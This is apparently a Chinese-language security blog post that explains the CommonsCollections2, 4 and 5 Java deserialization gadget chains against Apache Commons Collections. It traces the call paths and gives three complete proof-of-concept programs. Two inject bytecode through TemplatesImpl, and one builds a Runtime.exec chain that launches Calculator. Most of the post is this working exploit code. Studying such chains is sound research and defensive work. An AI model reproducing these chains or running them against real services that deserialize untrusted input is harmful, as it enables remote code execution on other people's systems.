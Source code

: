 # CommonsCollections2 4 5链详解

  
  
&lt;!--more--&gt;  
## CommonsCollections2-4-5链详解  
`Commons-Collections`版本为4.0  
### CommonsCollections4 链详解  
仍然是调用了`transform`方法，但入口点变了位置，这次利用了`TransformingComparator`类`compare()`方法中的`transform`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401171808254.png)
在`PriorityQueue`类中的`readObject`方法恰好调用了`compare`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401171809891.png)
跟进`heapify()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401171810664.png)
跟进`siftDown()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401171810083.png)
再跟进`siftDownUsingComparator()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401171810025.png)
正好在这里调用了`compare()`方法  
构造一下`poc`  
```java  
package org.example.CommonsCollections;    
    
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;    
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;    
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;    
import org.apache.commons.collections4.Transformer;    
import org.apache.commons.collections4.comparators.TransformingComparator;    
import org.apache.commons.collections4.functors.ChainedTransformer;    
import org.apache.commons.collections4.functors.ConstantTransformer;    
import org.apache.commons.collections4.functors.InstantiateTransformer;    
    
import javax.xml.transform.Templates;    
import java.io.FileInputStream;    
import java.io.FileOutputStream;    
import java.io.ObjectInputStream;    
import java.io.ObjectOutputStream;    
import java.lang.reflect.Field;    
import java.nio.file.Files;    
import java.nio.file.Paths;    
import java.util.PriorityQueue;    
    
public class CommonsCollections4 {    
    public static void main(String[] args) throws Exception {    
        TemplatesImpl templatesImpl = new TemplatesImpl();    
        Class tc = templatesImpl.getClass();    
    
        Field nameField = tc.getDeclaredField(&#34;_name&#34;);    
        nameField.setAccessible(true);    
        nameField.set(templatesImpl,&#34;test&#34;);    
    
        Field bytecodesField = tc.getDeclaredField(&#34;_bytecodes&#34;);    
        bytecodesField.setAccessible(true);    
        byte[] code = Files.readAllBytes(Paths.get(&#34;/Users/f10wers13eicheng/Desktop/JavaSecuritytalk/JavaThings/VulnDemo/src/main/java/org/example/LoaderDemo/Test.class&#34;));    
        byte[][] codes = {code};    
        bytecodesField.set(templatesImpl,codes);    
    
        Field tfactoryField = tc.getDeclaredField(&#34;_tfactory&#34;);    
        tfactoryField.setAccessible(true);    
        tfactoryField.set(templatesImpl,new TransformerFactoryImpl());    
    
        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templatesImpl});    
    
        Transformer[] transformers = new Transformer[]{    
                new ConstantTransformer(TrAXFilter.class),    
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templatesImpl})    
        };    
    
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);    
    
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);    
        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);    
        Class priorityClass = priorityQueue.getClass();    
        Field sizeField = priorityClass.getDeclaredField(&#34;size&#34;);    
        sizeField.setAccessible(true);    
        sizeField.set(priorityQueue,2);    
    
        //serialize(priorityQueue);    
        unserialize(&#34;ser.bin&#34;);    
    }    
    public static void serialize(Object obj) throws Exception{    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));    
        oos.writeObject(obj);    
    }    
    
    public static Object unserialize(String filename) throws Exception{    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));    
        Object obj = ois.readObject();    
        return obj;    
    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401171826539.png)  
### CommonsCollections2 链详解  
利用`InvokerTransformer`方法，来调用`newTransformer()`来加载恶意类的调用  
```java  
package org.example.CommonsCollections;    
    
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;    
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;    
import org.apache.commons.collections4.comparators.TransformingComparator;    
import org.apache.commons.collections4.functors.ConstantTransformer;    
import org.apache.commons.collections4.functors.InstantiateTransformer;    
import org.apache.commons.collections4.functors.InvokerTransformer;    
    
import javax.swing.text.AbstractDocument;    
import javax.xml.transform.Templates;    
import javax.xml.ws.spi.Invoker;    
import java.io.FileInputStream;    
import java.io.FileOutputStream;    
import java.io.ObjectInputStream;    
import java.io.ObjectOutputStream;    
import java.lang.reflect.Field;    
import java.nio.file.Files;    
import java.nio.file.Paths;    
import java.util.PriorityQueue;    
    
public class CommonsCollections2 {    
    public static void main(String[] args) throws Exception{    
        TemplatesImpl templatesImpl = new TemplatesImpl();    
        Class tc = templatesImpl.getClass();    
    
        Field nameField = tc.getDeclaredField(&#34;_name&#34;);    
        nameField.setAccessible(true);    
        nameField.set(templatesImpl,&#34;test&#34;);    
    
        Field bytecodesField = tc.getDeclaredField(&#34;_bytecodes&#34;);    
        bytecodesField.setAccessible(true);    
        byte[] code = Files.readAllBytes(Paths.get(&#34;/Users/f10wers13eicheng/Desktop/JavaSecuritytalk/JavaThings/VulnDemo/src/main/java/org/example/LoaderDemo/Test.class&#34;));    
        byte[][] codes = {code};    
        bytecodesField.set(templatesImpl,codes);    
    
        Field tfactoryField = tc.getDeclaredField(&#34;_tfactory&#34;);    
        tfactoryField.setAccessible(true);    
        tfactoryField.set(templatesImpl,new TransformerFactoryImpl());    
    
        InvokerTransformer invokerTransformer = new InvokerTransformer(&#34;newTransformer&#34;,new Class[]{},new Object[]{});    
    
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));    
    
        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);    
    
        priorityQueue.add(templatesImpl);    
        priorityQueue.add(2);    
    
        Class c = transformingComparator.getClass();    
        Field transformerField = c.getDeclaredField(&#34;transformer&#34;);    
        transformerField.setAccessible(true);    
        transformerField.set(transformingComparator,invokerTransformer);    
    
//        serialize(priorityQueue);    
        unserialize(&#34;ser.bin&#34;);    
    }    
    public static void serialize(Object obj) throws Exception{    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));    
        oos.writeObject(obj);    
    }    
    
    public static Object unserialize(String filename) throws Exception{    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));    
        Object obj = ois.readObject();    
        return obj;    
    
    }    
}  
```  
  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401171948223.png)
### CommonsCollections5 链详解  
这里利用了`TiedMapEntry`类中的`toString()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401172007422.png)
接着又去调用了`getValue()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401172007376.png)
然后调用了任意类的`get()`方法，这里直接用`LazyMap`类中的`get()`方法即可  
后面的直接用 CC1 部分链  
这里的入口点`readObject()`需要选一个有`toString()`方法的，这里用`BadAttributeValueExpException`类中的`readObject()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401172010602.png)
构造`poc`  
```java  
package org.example.CommonsCollections;    
    
import org.apache.commons.collections.Transformer;    
import org.apache.commons.collections.functors.ChainedTransformer;    
import org.apache.commons.collections.functors.ConstantTransformer;    
import org.apache.commons.collections.functors.InvokerTransformer;    
import org.apache.commons.collections.keyvalue.TiedMapEntry;    
import org.apache.commons.collections.map.LazyMap;    
import org.apache.commons.collections4.map.TransformedMap;    
    
import javax.management.BadAttributeValueExpException;    
import java.io.*;    
import java.lang.reflect.Field;    
import java.util.HashMap;    
import java.util.Map;    
    
public class CommonsCollections5 {    
    public static void main(String[] args) throws Exception{    
    
        Transformer[] transformers = new Transformer[]{    
                new ConstantTransformer(Runtime.class),    
                new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),    
                new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),    
                new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})    
        };    
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);    
    
        HashMap&lt;Object, Object&gt; map = new HashMap&lt;&gt;();    
        Map&lt;Object,Object&gt; lazymap = LazyMap.decorate(map,chainedTransformer);    
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap,1);    
    
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);    
        Class c = Class.forName(&#34;javax.management.BadAttributeValueExpException&#34;);    
        Field valField = c.getDeclaredField(&#34;val&#34;);    
        valField.setAccessible(true);    
        valField.set(badAttributeValueExpException,tiedMapEntry);    
    
        //serialize(badAttributeValueExpException);    
        unserialize(&#34;ser.bin&#34;);    
    
    }    
    
    public static void serialize(Object obj) throws Exception{    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));    
        oos.writeObject(obj);    
    }    
    
    public static Object unserialize(String filename) throws Exception{    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));    
        Object obj = ois.readObject();    
        return obj;    
    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401172022766.png)
  

---

> Author: N1Rvana  
> URL: http://localhost:1313/commonscollections2-4-5%E9%93%BE%E8%AF%A6%E8%A7%A3/  

